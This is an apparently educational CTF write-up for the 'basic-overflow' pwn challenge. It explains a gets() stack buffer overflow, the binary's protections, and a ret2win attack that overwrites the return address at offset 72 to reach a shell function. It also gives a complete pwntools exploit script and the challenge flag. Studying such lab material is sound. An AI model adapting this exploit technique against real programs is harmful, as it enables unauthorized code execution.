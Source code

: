 # basic-overflow

## Description

This challenge is simple.

It just gets input, stores it to a buffer.

It calls gets to read input, stores the read bytes to a buffer, then exits.

What is gets, you ask? Well, it's time you read the manual, no?

man 3 gets

Cryptic message from author: There are times when you tell them something, but they don't reply. In those cases, you must try again. Don't just shoot one shot; sometimes, they're just not ready yet.

Author: drec

nc 34.123.15.202 5000

[basic-overflow](/basic-overflow/basic-overflow)

## Approach

Like every pwn challenge ever, i first start with `checksec`.

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   26 Symbols        No    0               1               basic-overflow
```
So here's the summary of the analysis from `checksec`.

- Partial RELRO, so it means that the GOT entry is writable.
- No canary found, so it means that there's no checks if the stack is overflown.
- NX enabled, so it means that we can't execute codes on the stack.
- No PIE, so it means that the base address of the binary is not randomized, makes it easier to call functions later.

So we start taking a look at the decompiled code.

![main](assets/main.png)

So it takes user input using gets. Making buffer overflow possible.

Looking at another function called `shell`

![shell](assets/shell.png)

In this function, it called `execve("/bin/sh", 0, 0)`, basically calling a shell. So we must call that function to pop a shell.

This is a typical ret2win challenge, so we basically have to overwrite RIP to a win function, in this chall, it's `shell`.

Using pwndbg, i found that the offset to RIP is 72. And then we write the address of `shell` to RIP.

## Exploit
```
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './basic-overflow'
elf = context.binary = ELF(exe, checksec=False)
libc = '/usr/lib/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '34.123.15.202', 5000

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    global io
    io = initialize()

    offset = 72
    payload = flat({
        offset: [
            elf.symbols['shell']
        ]
    })

    io.sendline(payload)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```

## Flag
```
uoftctf{reading_manuals_is_very_fun}
```
